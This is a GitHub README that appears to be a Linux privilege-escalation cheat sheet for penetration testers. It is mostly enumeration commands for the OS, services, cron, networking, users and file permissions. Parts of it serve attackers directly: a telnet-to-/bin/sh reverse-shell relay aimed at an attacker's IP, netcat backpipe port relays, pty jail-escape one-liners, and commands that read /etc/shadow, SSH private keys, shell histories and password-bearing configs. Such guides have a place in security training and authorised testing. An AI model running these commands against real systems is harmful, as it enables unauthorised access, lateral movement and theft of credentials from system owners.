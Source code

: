 # Linux-Previlege-Escalation
Before starting, I would like to point out - I'm no expert. As far as I know, there isn't a "magic" answer, in this huge area. This is simply my finding, typed up, to be shared (my starting point). Below is a mixture of commands to do the same thing, to look at things in a different place or just a different light. I know there more "things" to look for. It's just a basic & rough guide. Not every command will work for each system as Linux varies so much. "It" will not jump off the screen - you've to hunt for that "little thing" as "the devil is in the detail"
Enumeration is the key.
(Linux) privilege escalation is all about:

Collect - Enumeration, more enumeration and some more enumeration.
Process - Sort through data, analyse and prioritisation.
Search - Know what to search for and where to find the exploit code.
Adapt - Customize the exploit, so it fits. Not every exploit work for every system "out of the box".
Try - Get ready for (lots of) trial and error.
Operating System
What's the distribution type? What version?
1
2
3
4
cat /etc/issue
cat /etc/*-release
  cat /etc/lsb-release      # Debian based
  cat /etc/redhat-release   # Redhat based
What's the kernel version? Is it 64-bit?
1
2
3
4
5
6
cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
What can be learnt from the environmental variables?
1
2
3
4
5
6
7
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
Is there a printer?
1
lpstat -a
Applications & Services
What services are running? Which service has which user privilege?
1
2
3
4
ps aux
ps -ef
top
cat /etc/services
Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!
1
2
ps aux | grep root
ps -ef | grep root
What applications are installed? What version are they? Are they currently running?
1
2
3
4
5
6
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/
Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached?
1
2
3
4
5
6
7
8
9
10
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/
What jobs are scheduled?
1
2
3
4
5
6
7
8
9
10
11
12
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
Any plain text usernames and/or passwords?
1
2
3
4
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla
Communications & Networking
What NIC(s) does the system have? Is it connected to another network?
1
2
3
/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway?
1
2
3
4
5
6
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname
What other users & hosts are communicating with the system?
1
2
3
4
5
6
7
8
9
10
lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w
Whats cached? IP and/or MAC addresses
1
2
3
arp -e
route
/sbin/route -nee
Is packet sniffing possible? What can be seen? Listen to live traffic
1
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
Note: tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]

Have you got a shell? Can you interact with the system?
1
2
3
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!
Note: http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

Is port forwarding possible? Redirect and interact with traffic from another view
Note: http://www.boutell.com/rinetd/

Note: http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch

Note: http://downloadcenter.mcafee.com/products/tools/foundstone/fpipe2_1.zip

Note: FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]

1
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
Note: ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]

1
2
ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port
Note: mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe

1
2
3
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe    # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)
Is tunnelling possible? Send commands locally, remotely
1
2
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig
Confidential Information & Users
Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?
1
2
3
4
5
6
7
8
9
id
who
w
last
cat /etc/passwd | cut -d: -f1    # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l
What sensitive files can be found?
1
2
3
4
cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/
Anything "interesting" in the home directorie(s)? If it's possible to access
1
2
ls -ahlR /root/
ls -ahlR /home/
Are there any passwords in; scripts, databases, configuration files or log files? Default paths and locations for passwords
1
2
3
cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg
What has the user being doing? Is there any password in plain text? What have they been edting?
1
2
3
4
5
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
What user information can be found?
1
2
3
4
cat ~/.bashrc
cat ~/.profile
cat /var/mail/root
cat /var/spool/mail/root
Can private-key information be found?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key
File Systems
Which configuration files can be written in /etc/? Able to reconfigure a service?
1
2
3
4
5
6
7
ls -aRl /etc/ | awk '$1 ~ /^.*w.*/' 2>/dev/null     # Anyone
ls -aRl /etc/ | awk '$1 ~ /^..w/' 2>/dev/null       # Owner
ls -aRl /etc/ | awk '$1 ~ /^.....w/' 2>/dev/null    # Group
ls -aRl /etc/ | awk '$1 ~ /w.$/' 2>/dev/null        # Other

find /etc/ -readable -type f 2>/dev/null               # Anyone
find /etc/ -readable -type f -maxdepth 1 2>/dev/null   # Anyone
What can be found in /var/ ?
1
2
3
4
5
6
7
ls -alh /var/log
ls -alh /var/mail
ls -alh /var/spool
ls -alh /var/spool/lpd
ls -alh /var/lib/pgsql
ls -alh /var/lib/mysql
cat /var/lib/dhcp3/dhclient.leases
Any settings/files (hidden) on website? Any settings file with database information?
1
2
3
4
5
ls -alhR /var/www/
ls -alhR /srv/www/htdocs/
ls -alhR /usr/local/www/apache22/data/
ls -alhR /opt/lampp/htdocs/
ls -alhR /var/www/html/
Is there anything in the log file(s) (Could help with "Local File Includes"!)

1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
cat /etc/httpd/logs/access_log
cat /etc/httpd/logs/access.log
cat /etc/httpd/logs/error_log
cat /etc/httpd/logs/error.log
cat /var/log/apache2/access_log
cat /var/log/apache2/access.log
cat /var/log/apache2/error_log
cat /var/log/apache2/error.log
cat /var/log/apache/access_log
cat /var/log/apache/access.log
cat /var/log/auth.log
cat /var/log/chttp.log
cat /var/log/cups/error_log
cat /var/log/dpkg.log
cat /var/log/faillog
cat /var/log/httpd/access_log
cat /var/log/httpd/access.log
cat /var/log/httpd/error_log
cat /var/log/httpd/error.log
cat /var/log/lastlog
cat /var/log/lighttpd/access.log
cat /var/log/lighttpd/error.log
cat /var/log/lighttpd/lighttpd.access.log
cat /var/log/lighttpd/lighttpd.error.log
cat /var/log/messages
cat /var/log/secure
cat /var/log/syslog
cat /var/log/wtmp
cat /var/log/xferlog
cat /var/log/yum.log
cat /var/run/utmp
cat /var/webmin/miniserv.log
cat /var/www/logs/access_log
cat /var/www/logs/access.log
ls -alh /var/lib/dhcp3/
ls -alh /var/log/postgresql/
ls -alh /var/log/proftpd/
ls -alh /var/log/samba/

Note: auth.log, boot, btmp, daemon.log, debug, dmesg, kern.log, mail.info, mail.log, mail.warn, messages, syslog, udev, wtmp
Note: http://www.thegeekstuff.com/2011/08/linux-var-log-files/

If commands are limited, you break out of the "jail" shell?
1
2
3
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
How are file-systems mounted?
1
2
mount
df -h
Are there any unmounted file-systems?
1
cat /etc/fstab
What "Advanced Linux File Permissions" are used? Sticky bits, SUID & GUID
1
2
3
4
5
6
7
8
9
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
Where can written to and executed from? A few 'common' places: /tmp, /var/tmp, /dev/shm
1
2
3
4
5
6
7
find / -writable -type d 2>/dev/null      # world-writeable folders
find / -perm -222 -type d 2>/dev/null     # world-writeable folders
find / -perm -o w -type d 2>/dev/null     # world-writeable folders

find / -perm -o x -type d 2>/dev/null     # world-executable folders

find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders
Any "problem" files? Word-writeable, "nobody" files
1
2
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files
Preparation & Finding Exploit Code
What development tools/languages are installed/supported?
1
2
3
4
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc
How can files be uploaded?
1
2
3
4
5
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
